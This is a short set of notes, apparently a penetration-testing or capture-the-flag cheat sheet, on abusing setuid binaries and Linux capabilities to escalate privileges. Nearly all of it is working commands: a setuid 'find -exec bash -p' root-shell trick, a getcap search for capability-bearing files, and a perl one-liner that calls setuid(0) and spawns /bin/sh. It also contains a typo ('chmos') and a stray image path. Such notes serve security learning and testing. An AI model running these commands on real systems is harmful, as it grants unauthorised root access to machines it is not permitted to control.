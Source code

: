 ### Abusing Setuid Binaries and Capabilities

chmos u+s

find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
search capabilities of file in linux - /usr/sbin/getcap -r / 2>/dev/null
search on gtfobins

perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

